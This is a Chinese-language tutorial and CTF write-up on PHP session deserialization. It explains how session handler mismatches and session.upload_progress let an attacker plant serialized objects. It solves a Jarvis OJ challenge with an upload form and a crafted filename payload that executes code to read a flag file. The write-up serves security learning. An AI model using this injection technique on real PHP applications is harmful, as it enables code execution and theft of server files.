# Session反序列化

## 先来了解一下关于session的一些基础知识

#### **什么是session?**

在计算机中，尤其是在网络应用中，称为“会话控制”。Session 对象存储特定用户会话所需的属性及配置信息。这样，当用户在应用程序的 Web 页之间跳转时，存储在 Session 对象中的变量将不会丢失，而是在整个用户会话中一直存在下去。当用户请求来自应用程序的 Web 页时，如果该用户还没有会话，则 Web 服务器将自动创建一个 Session 对象。当会话过期或被放弃后，服务器将终止该会话。

#### **session是如何起作用的**

当第一次访问网站时，Seesion_start()函数就会创建一个唯一的Session ID，并自动通过HTTP的响应头，将这个Session ID保存到客户端Cookie中。同时，也在服务器端创建一个以Session ID命名的文件，用于保存这个用户的会话信息。当同一个用户再次访问这个网站时，也会自动通过HTTP的请求头将Cookie中保存的Seesion ID再携带过来，这时Session_start()函数就不会再去分配一个新的Session ID，而是在服务器的硬盘中去寻找和这个Session ID同名的Session文件，将这之前为这个用户保存的会话信息读出，在当前脚本中应用，达到跟踪这个用户的目的。

#### session_start()这个函数

当会话自动开始或者通过 session_start() 手动开始的时候， PHP 内部会依据客户端传来的PHPSESSID来获取现有的对应的会话数据（即session文件）， PHP 会自动反序列化session文件的内容，并将之填充到 $_SESSION 超级全局变量中。如果不存在对应的会话数据，则创建名为sess_PHPSESSID(客户端传来的)的文件。如果客户端未发送PHPSESSID，则创建一个由32个字母组成的PHPSESSID，并返回set-cookie。

## **php.ini中一些Session配置**

##### **session 的存储机制**

php中的session中的内容并不是放在内存中的，而是以文件的方式来存储的

| Directive                       | 含义                                                         |
| ------------------------------- | ------------------------------------------------------------ |
| session.save_handler            | session保存形式。默认为files                                 |
| session.save_path               | session保存路径。                                            |
| session.serialize_handler       | session序列化存储所用处理器。默认为php。                     |
| session.upload_progress.cleanup | 一旦读取了所有POST数据，立即清除进度信息。默认开启 //若漏洞存在,此项应该为off |
| session.upload_progress.enabled | 将上传文件的进度信息存在session中。默认开启。                |

#### session储存处理器：

- php_binary:存储方式是，键名的长度对应的ASCII字符+键名+经过serialize()函数序列化处理的值
- php:存储方式是，键名+竖线+经过serialize()函数序列处理的值
- php_serialize(php>5.5.4):存储方式是，经过serialize()函数序列化处理的值

这里就不举例了,网上有很多例子

#### 利用条件

- session.serialize_handler                        处理器不相同
- session.upload_progress.cleanup         off
- session.upload_progress.enabled         on

关于session.upload_progress.enabled，这里存在一个php的bug, https://bugs.php.net/bug.php?id=71101



需要先上传文件，同时`POST`一个与`session.upload_process.name`的同名变量。后端会自动将`POST`的这个**同名变量作为键**进行**序列化**然后存储到`session`文件中。下次请求就会**反序列化session文件**，从中取出这个键。

**具体作用可以去看官方文档,官方文档写得挺详细的,这里就不详细的讲了https://www.php.net/manual/zh/session.upload-progress.php**

这里需要在本地写一段post表单来上传至服务器    //有了这个漏洞之后我们就可以控制session的值

```
<form action="URL" method="POST" enctype="multipart/form-data">    
<input type="hidden" name="PHP_SESSION_UPLOAD_PROGRESS" value="123" />    
<input type="file" name="file1" />   
<input type="submit" /></form>
```

然后,在session里面就会产生这样的数据:




这里的`foo.avi`则是上传的文件名字,可以被我们所控制,设置为payload,然后就需要利用所说的`session.serialize_handler`  处理器的差异问题,若我们将这里的`foo.avi`改成一个反序列化字符串,再在前面加上|,这里可以类似于双引号逃逸

这里为本地测试的结果:



这里假设我们的payload为序列化字符串， 

原本我们的payload是被双引号给包裹起来的,导致我们的payload无法进行序列化,但是当我们的payload前面加了|，字符串xxx“|payload”,第一个双引号被当作了键值,而|后面的字符串也会进行反序列化,导致我们的payload成功执行,可以根据下面的图片来理解

**若session文件以php_serialize+| 存储,php方式读取**



**若session以php存储和读取：   //这里若把s:71前面的|移动到O:5前面也可达到同样的效果(这样说可能方便一下理解)**




接下来就开始实战吧

# CTF例题：phpinfo()

题目地址:     http://web.jarvisoj.com:32784/



首先看下phpinfo;



这里有很多配置,其中最有用的是这几个画红线的配置

`session.auto.start`是在访问时生成存储session文件的,和session_start()作用相同,因为这题有session_start()，所以说这题为off也同样产生了漏洞，当然session.use_strict_mode默认值为0时也可自己设置session ID

`session.serialize_handler`后面的session处理器出现了差异

`session.upload_progress.cleanup`若为on,则会自动清除session文件,所以应为Off（若为On时,可以采用条件竞争)

`session.upload_progress.enabled`  php的bug

### 修改session文件

这里编写表单:

```
<form action="http://web.jarvisoj.com:32784/index.php" method="POST" enctype="multipart/form-data">
<input type="hidden" name="PHP_SESSION_UPLOAD_PROGRESS" value="123" />
<input type="file" name="file1" />
<input type="submit" /></form>
```

将其插入到html代码中





随便选择文件使用burp抓包



修改filename的值为payload   //注意此处的双引号要转义,因为我们要将其存储到文件中,这里可以看见payload已经执行成功

```
读取文件内容：

通过file_get_contents读取文件内容
设置$mdzz=‘O:5:"OowoO":1:{s:4:"mdzz";s:87:"print_r(file_get_contents("/opt/lampp/htdocs/Here_1s_7he_fl4g_buT_You_Cannot_see.php"))";}
序列话结果
O:5:"OowoO":1:{s:4:"mdzz";s:88:"print_r(file_get_contents("/opt/lampp/htdocs/Here_1s_7he_fl4g_buT_You_Cannot_see.php"));";}
文件名设置为
|O:5:\"OowoO\":1:{s:4:\"mdzz\";s:88:\"print_r(file_get_contents(\"/opt/lampp/htdocs/Here_1s_7he_fl4g_buT_You_Cannot_see.php\"));\";}。
```




# 相关文章:

##### https://news.ssssafe.com/archives/1493

